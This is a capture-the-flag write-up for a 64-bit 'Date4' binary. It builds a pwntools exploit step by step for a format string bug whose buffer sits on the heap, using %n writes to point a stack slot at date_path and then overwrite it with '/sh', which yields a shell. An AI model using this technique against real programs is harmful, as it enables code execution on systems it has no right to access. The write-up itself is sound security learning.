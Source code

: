 # Date4

```
Description
Format strings are easy to exploit right?

Author
Eth007
```


We got a binary, lets check the arch and the protections etc..:

![img](images/checksec.jpg)

So only nx is enabled and its an 64 bit binary. Lets decompile it in ghidra:

![img](images/ghidra.jpg)

We can see we have again a format string vuln, but now its not on the stack but on the heap. We can also see that `date_path` is now in the `.data` section.
So now we cant write `/bin/sh` with the format string to `date_path` as we did in `date2`. We cant find our offset, but the printf is still printing values from the stack.

So what we need to do is similar to [this](https://anee.me/format-string-exploits-when-buffer-is-not-on-the-stack-f7c83e1a6781). So lets find an address pointing to another address on the stack, 
with that we first write the `date_path` address to the first stack address, then with the second write we write `/bin/sh`. 
We set a breakpoint after printf and check the stack:

![img](images/gdb.jpg)

So we can see the first value is pointing to an other address on the stack. The blue square is pointing to our heap. We can find the offset of the first value at the 6th position with gdb(run the program in gdb with the breakpoint and send `%6$p` and check the stack) 
As we can read [here](https://cor.team/posts/Zh3r0-CTF-V2---All-Pwnable-Writeups):

```
First, when something of the %offset$specifier notation is encountered, the value is cached in args_value in printf_positional so it will not reference the stack upon the next encounter.
```

So we cant use positional arguments `%offset$specifier` at the first write because of the caching issue. What we can do is like sending `x` offset times till we are at the position we want to be.
So lets create our script:

```py
from pwn import *

def start(argv=[], *a, **kw):
    if args.GDB: 
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE: 
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else: 
        return process([exe] + argv, *a, **kw)


gdbscript = '''
'''.format(**locals())

exe = './vuln'
elf = context.binary = ELF(exe, checksec=False)
context.log_level = 'critical'

io = start()

payload = b"%x" * 4
payload += b"%30x"
payload += b"%n"

write("payload", payload)

io.interactive()
```

We run this and it will create a payload file in the same directory, lets use it in gdb. As we can see:

```py
payload = b"%x" * 4 # means %x %x %x %x equals %4$specifier
payload += b"%30x" # 5th offset
payload += b"%n" # here we are at the 6th offset as we want
```

So lets run in gdb(`r < payload`), this time we set a breakpoint before and after printf and check the stack
We hit our first breakpoint, lets check the stack:

![img](images/gdb1.jpg)

Nothing changed, lets continue:

![img](images/gdb2.jpg)

We see its changed to 0x35. So lets calculate the amount of bytes we need to write. `date_path` is at `0x404080`. Pie is disabled so no worries for changes. 
We can see that if we write 30 bytes, we get 0x35. So lets calculate in python:


![img](images/py.jpg)

We substract 30 from 53 because thats the padding we used. Then we substract the value from the address we want to write. So lets change our script:

```py
payload = b"%x" * 4
payload += b"%4210793x"
payload += b"%n"
```

Lets run it and use it in gdb again(same breakpoints)
Continue after the first breakpoint an check the stack:

![img](images/gdb3.jpg)

So we succesfully wrote the `date_path` address to that location, so now with our second write we can use positional arguments.
So what we want to write now is `/bin/sh` to `date_path`. But in `date_path` there is already `/usr/bin/` so we can just overwrite `date` with `/sh`(`/usr/bin//sh` doesnt matter and will run as normally, try locally in your terminal). Lets check the address we want to overwrite.
We can set values in gdb:

![img](images/gdb4.jpg)

We can find the offset of the second address that we changed manually. Its the `38th` position.
So lets change our payload again. We want to write `0x0068732f` to `0x404089`. We also need to change our first payload because we wrote `0x404080`(just add `9`). 

So if we change it to:

```py
payload = b"%x" * 4
payload += b"%4210802x"
payload += b"%n"
payload += b"%30x%38$n"
```

And run it again and check what we wrote:

![img](images/gdb5.jpg)

So we can calculate it again, like we did before:

![img](images/py1.jpg)

So changed `30` to `2634406` and run again:

![img](images/gdb6.jpg)

And we can see we succesfully wrote what we want.
If we run it outside of gdb, we can see it wont work and differs slightly:

![img](images/error.jpg)

So lets debug with our script in gdb:

```py
from pwn import *

def start(argv=[], *a, **kw):
    if args.GDB: 
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE: 
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else: 
        return process([exe] + argv, *a, **kw)


gdbscript = '''
b *main+134
b *main+139
'''.format(**locals())

exe = './vuln'
elf = context.binary = ELF(exe, checksec=False)
context.log_level = 'critical'

io = start()

payload = b"%x" * 4
payload += b"%4210802x"
payload += b"%n"
payload += b"%2634406x%38$n"

io.sendlineafter(b'date?\n', payload)

io.interactive()
```

`python3 exploit.py GDB`

It will open an extra tab with gdb. Lets continue 2 times till we hit the second breakpoint, and check the stack:

![img](images/gdb7.jpg)

We can see here, its not the address we want. Its `0xa` at the end and we want `0x9` so 1 number too much. So we substract 1 from `4210802` in our script, and run it again:

![img](images/gdb8.jpg)

We can see everything is correct now, so lets continue:

![img](images/local.jpg)

And we got our shell locally, lets try to run remotely:

![img](images/flag.jpg)

and we got our shell and flag. Really cool chall, learnt some new stuff!
